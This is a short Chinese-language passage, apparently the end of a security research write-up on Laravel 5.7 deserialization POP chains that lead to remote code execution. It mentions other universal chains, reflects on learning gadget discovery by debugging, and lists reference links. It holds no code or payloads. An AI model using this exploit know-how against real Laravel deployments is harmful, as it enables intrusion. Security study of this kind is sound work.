laravel5.7 的链子肯定是不止这一条的, 例如 [https://xz.aliyun.com/t/9478](https://xz.aliyun.com/t/9478)  
这篇文章里面有几条链是在 laravel5.4 到 5.8 是通杀的, 还有 H3 师傅总结的链子 [https://www.anquanke.com/post/id/258264](https://www.anquanke.com/post/id/258264)  
这里有 10 多条, 里面有好几条也是可以通杀的, 但是这里只分析了 5.7 最典型的一条链子

这条链子和以往的复现不太一样, 对 POP 挖掘思路有很大的影响, 可以明白在 POP 链挖掘的时候依次打断点去单步调试最后找到一条完整的链子, 而不是每次去看到师傅的 POC 复现, 这能让自己明白如何去寻找一条完整的 POP 链

参考链接

[https://laworigin.github.io/2019/02/21/laravelv5-7 反序列化 rce/](https://laworigin.github.io/2019/02/21/laravelv5-7%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96rce/)

[https://xz.aliyun.com/t/8359#toc-6](https://xz.aliyun.com/t/8359#toc-6)

[https://blog.csdn.net/rfrder/article/details/113826483](https://blog.csdn.net/rfrder/article/details/113826483)

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
